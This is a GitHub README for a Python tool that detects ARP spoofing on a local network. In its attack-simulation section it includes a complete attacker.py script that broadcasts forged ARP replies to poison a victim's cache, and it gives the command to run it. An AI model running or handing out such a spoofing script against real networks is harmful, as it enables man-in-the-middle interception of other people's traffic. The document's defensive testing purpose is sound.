


# ARP Spoof Detector 🛡️

A lightweight, real-time Python network utility designed to detect ARP Spoofing (ARP Poisoning) attacks on your local network. It monitors ARP traffic, maintains a local cache of IP-to-MAC pairings, and alerts you instantly if a mismatch is detected, signaling a potential Man-in-the-Middle (MitM) attack.

## 🚀 Features

- **Real-Time Detection:** Live packet sniffing using `scapy` with minimal overhead.
- **Dynamic MAC Tracking:** Learns IP-to-MAC associations dynamically and alerts on changes.
- **Static Whitelist:** Pre-define known, trusted devices (like routers or NAS) to prevent false positives.
- **Persistent Logging:** Writes all spoofing alerts to `arp_alerts.log` for auditing.
- **Colorized Alerts:** Immediate, highly visible console warnings using `colorama`.
- **Self-Aware:** Automatically excludes its own interface's MAC to prevent self-triggering alerts.

## 🛠️ Prerequisites

- **Python 3.x**
- **Root/Administrator Privileges:** Required for sniffing network packets (`sudo`).
- External Libraries: `scapy`, `colorama`

## ⚙️ Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/yourusername/arp-spoof-detector.git
   cd arp-spoof-detector
   ```

2. **Set up a virtual environment (optional but recommended):**
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

3. **Install dependencies:**
   ```bash
   pip install scapy colorama
   ```

## 💻 Usage

> **Note:** Since this script captures raw packets, you must run it with elevated privileges (i.e., `sudo` on Linux/Ubuntu).

1. **List available network interfaces:**
   ```bash
   sudo python3 main.py --list-interfaces
   ```

2. **Start monitoring an interface** (e.g., `eth0` or `en0`):
   ```bash
   sudo python3 main.py -i eth0
   ```

3. **Stop monitoring:**
   Press `Ctrl+C`. A session summary will be automatically generated, displaying packets analyzed, alerts triggered, and the final IP-to-MAC table.

### Configuring the Whitelist
To prevent false alarms for known, safe static IP assignments on your network, edit `whitelist.py`:
```python
STATIC_WHITELIST = {
    "192.168.1.1":   "aa:bb:cc:dd:ee:ff",  # Router
}
```

## 📸 Network Attack Simulation

To test the detector, we can deploy an ARP spoofing attack using Python and `scapy`. The following script simulates the behavior of tools like `arpspoof`.

### 1. Environment Setup & Reconnaissance

The attack is executed using an Ubuntu Virtual Machine hosted on VirtualBox, bridging the connection into the local subnet.


Before launching the attack, the attacker verifies reachability to the target machine (the victim):
```bash
ping 10.3.83.128
```


### 2. The Attacker Script (`attacker.py`)
This script crafts forged `Ether / ARP` packets and broadcasts them towards a specific target, falsely claiming that it (the attacker) holds the router's IP address.

```python
# attacker.py
from scapy.all import ARP, Ether, sendp
import time
import argparse

def main():
    parser = argparse.ArgumentParser(description="ARP Spoofing Attacker Script")
    parser.add_argument("-t", "--target", required=True, help="Target IP (e.g. Victim's IP)")
    parser.add_argument("-g", "--gateway", required=True, help="Gateway IP (e.g. Router IP)")
    parser.add_argument("-m", "--mac", default="de:ad:be:ef:00:01", help="Fake MAC address to spoof")
    args = parser.parse_args()

    TARGET_IP = args.target
    GATEWAY_IP = args.gateway
    FAKE_MAC = args.mac

    # Crafting the malicious ARP reply (op=2)
    pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(
        op=2, pdst=TARGET_IP, hwdst="ff:ff:ff:ff:ff:ff", 
        psrc=GATEWAY_IP, hwsrc=FAKE_MAC
    )

    print(f"Attacking {TARGET_IP}. Spoofing Gateway {GATEWAY_IP}...")
    print("Sending forged ARP replies... Ctrl+C to stop")

    while True:
        sendp(pkt, verbose=False)
        time.sleep(1)

if __name__ == "__main__":
    main()
```

### 3. Execution & Live Detection Flow

Here is the exact flow of the attack and detection within the environment (Ubuntu VirtualBox attacker crossing paths with a Windows victim):

#### Attacker Side (Ubuntu VM):
The attacker runs the script to send continuous fake ARP replies toward the designated IP address, declaring a forged MAC address (`de:ad:be:ef:00:01`).
```bash
sudo python3 attacker.py -t 10.3.83.128 -g 10.3.0.1
```


#### Victim Side / Detector (Windows):
Meanwhile, the `ARP Spoof Detector` script is quietly monitoring network traffic. As soon as the malicious packets hit, the local caching system recognizes that the MAC address for Gateway `10.3.0.1` has abruptly changed from its known value to the fake `de:ad:be:ef:00:01`.

The console immediately flags the violation in **bright red**, outputting the claimed IP, the historically known MAC, the fraudulent MAC, and a summary of the packed trigger.



## 📝 Logging

Alerts are saved in `arp_alerts.log` in the following format:
```
2026-04-17 10:30:15  WARNING  SPOOF ip=192.168.1.5 known_mac=aa:bb:cc:dd:ee:11 claimed_mac=ff:ee:dd:cc:bb:22
```

## 👨‍💻 Author & Ownership

**Developed by: Garvit (@garvits01)**

This project was natively developed, coded, and tested as an original cybersecurity demonstration and active defense tool. 

## ⚖️ License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details. This explicitly stakes your open-source copyright and permits others to study your work while crediting you natively.

## ⚠️ Disclaimer

This tool is strictly for educational and defensive purposes. Always ensure you have explicit permission to monitor traffic on the network you are on.

## 🤝 Contributing
Pull requests are welcome! Feel free to open an issue if you encounter any bugs or want to suggest new features.
